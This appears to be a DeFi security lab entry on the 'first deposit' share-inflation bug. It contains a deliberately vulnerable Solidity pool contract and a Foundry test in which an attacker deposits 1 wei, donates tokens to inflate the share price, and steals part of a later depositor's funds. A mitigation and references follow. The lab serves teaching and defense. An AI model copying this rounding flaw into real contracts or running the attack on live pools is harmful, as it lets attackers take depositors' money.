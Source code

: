 [first-deposit.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/first-deposit.sol)

# First deposit bug

**Name:** First deposit bug

**Description:** First pool depositor can be front-run and have part of their deposit stolen In this case, we can control the variable "_supplied." By depositing a small amount of loan tokens to obtain pool tokens,we can front-run other depositors' transactions and inflate the price of pool tokens through a substantial "donation." Consequently, the attacker can withdraw a greater quantity of loan tokens than they initially possessed.

This calculation issue arises because, in Solidity, if the pool token value for a user becomes less than 1, it is essentially rounded down to 0.

**Mitigation:**

Consider minting a minimal amount of pool tokens during the first deposit and sending them to zero address, this increases the cost of the attack. Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address. The same can be done in this case i.e. when totalSupply() == 0, send the first min liquidity LP tokens to the zero address to enable share dilution.

**REF:**

https://defihacklabs.substack.com/p/solidity-security-lesson-2-first

https://github.com/sherlock-audit/2023-02-surge-judging/issues/1

https://github.com/transmissions11/solmate/issues/178

**Contract:**

```jsx
contract MyToken is ERC20, Ownable {
    constructor() ERC20("MyToken", "MTK") {
        _mint(msg.sender, 10000 * 10 ** decimals());
    }

    function mint(address to, uint256 amount) public onlyOwner {
        _mint(to, amount);
    }
}

contract SimplePool {
    IERC20 public loanToken;
    uint public totalShares;

    mapping(address => uint) public balanceOf;

    constructor(address _loanToken) {
        loanToken = IERC20(_loanToken);
    }

    function deposit(uint amount) external {
        require(amount > 0, "Amount must be greater than zero");

        uint _shares;
        if (totalShares == 0) {
            _shares = amount;
        } else {
            _shares = tokenToShares(
                amount,
                loanToken.balanceOf(address(this)),
                totalShares,
                false
            );
        }

        require(
            loanToken.transferFrom(msg.sender, address(this), amount),
            "TransferFrom failed"
        );
        balanceOf[msg.sender] += _shares;
        totalShares += _shares;
    }

    function tokenToShares(
        uint _tokenAmount,
        uint _supplied,
        uint _sharesTotalSupply,
        bool roundUpCheck
    ) internal pure returns (uint) {
        if (_supplied == 0) return _tokenAmount;
        uint shares = (_tokenAmount * _sharesTotalSupply) / _supplied;
        if (
            roundUpCheck &&
            shares * _supplied < _tokenAmount * _sharesTotalSupply
        ) shares++;
        return shares;
    }

    function withdraw(uint shares) external {
        require(shares > 0, "Shares must be greater than zero");
        require(balanceOf[msg.sender] >= shares, "Insufficient balance");

        uint tokenAmount = (shares * loanToken.balanceOf(address(this))) /
            totalShares;

        balanceOf[msg.sender] -= shares;
        totalShares -= shares;

        require(loanToken.transfer(msg.sender, tokenAmount), "Transfer failed");
    }
}
```

***\*How to Test:\****

forge test --contracts src/test/**first-deposit.sol**-vvvv

```jsx
// Function to test the first deposit process
    function testFirstDeposit() public {
        // Alice's address is set as the first address in the virtual machine
        address alice = vm.addr(1);
        
        // Bob's address is set as the second address in the virtual machine
        address bob = vm.addr(2);
        
        // Transfers 1 Ether plus 1 wei to Alice's account from the MyTokenContract
        MyTokenContract.transfer(alice, 1 ether + 1);
        
        // Transfers 2 Ether to Bob's account from the MyTokenContract
        MyTokenContract.transfer(bob, 2 ether);

        // Initiates a "prank" on Alice's account in the virtual machine
        vm.startPrank(alice);
        
        // Alice approves the SimplePoolContract to spend 1 wei of her tokens
        MyTokenContract.approve(address(SimplePoolContract), 1);
        
        // Alice deposits 1 wei into the SimplePoolContract, receiving 1 pool token in return
        SimplePoolContract.deposit(1);

        // Alice transfers 1 Ether to the SimplePoolContract, which inflates the price of the pool tokens
        MyTokenContract.transfer(address(SimplePoolContract), 1 ether);

        // Stops the prank on Alice's account
        vm.stopPrank();
        
        // Initiates a prank on Bob's account
        vm.startPrank(bob);
        
        // Bob approves the SimplePoolContract to spend 2 Ether of his tokens
        MyTokenContract.approve(address(SimplePoolContract), 2 ether);
        
        // Bob deposits 2 Ether into the SimplePoolContract, but due to the inflated price, he only receives 1 pool token
        SimplePoolContract.deposit(2 ether);
        
        // Stops the prank on Bob's account
        vm.stopPrank();
        
        // Initiates a prank on Alice's account
        vm.startPrank(alice);

        // Gets the balance of the SimplePoolContract in MyTokenContract
        MyTokenContract.balanceOf(address(SimplePoolContract));

        // Alice withdraws 1 pool token and gets 1.5 Ether, thus making a profit
        SimplePoolContract.withdraw(1);
        
        // Asserts that Alice's balance should now be 1.5 Ether. If it's not, it throws an error
        assertEq(MyTokenContract.balanceOf(alice), 1.5 ether);
        
        // Logs Alice's balance in the console
        console.log("Alice balance", MyTokenContract.balanceOf(alice));
    }
```

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fbf5edaeb-708c-433d-b87f-9fd9a16b7633%2FUntitled.png?table=block&id=9f907b3b-45de-448e-ae5b-a3c771d9743f&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)